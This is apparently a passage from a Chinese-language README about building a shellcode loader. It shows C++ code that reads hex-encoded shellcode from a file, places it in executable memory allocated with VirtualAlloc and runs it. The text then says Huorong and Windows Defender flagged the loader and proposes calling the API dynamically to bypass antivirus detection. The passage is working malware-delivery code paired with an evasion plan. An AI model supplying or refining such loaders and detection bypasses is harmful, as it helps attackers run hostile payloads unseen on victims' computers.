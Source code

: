 ```cpp
    
    //判断文件是否打开成功
    if (file.is_open()) {
        std::stringstream buffer; //创建一个stringstream对象
        buffer << file.rdbuf();  //将文件的内容复制到该流中
        contents = buffer.str();  //将stringstream对象的内容转换string,并将其存储在contents中

        size = contents.length()/2;  //由于两个十六进制相当于一个字节,因此文件内容长度需除以2
        file.close();  //关闭文件
    }
    
    //printf("%d\n", size); 
    //cout << contents;


    // 为存储转换后的shellcode分配内存
    unsigned char* buffer = (unsigned char*)malloc(size);
    
    // 调用函数将十六进制字符串转换为字节型数组
    hexStringToBytes(contents, buffer, size);

    // 在内存中分配一块可以执行的区域
    void* exec = VirtualAlloc(0, size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    
    // 将shellcode复制到该区域
    memcpy(exec, buffer, size);
    
    // 执行该shellcode
    ((void(*) ())exec)();
}
```


<br>

## 代码优化

火绒和WindowsDefender都报毒了, 其原因是内存申请函数`VirtualAlloc`被检测到了，那就使用动态调用api来绕过检测

![image-20230522235637826](README/image-20230522235637826.png)
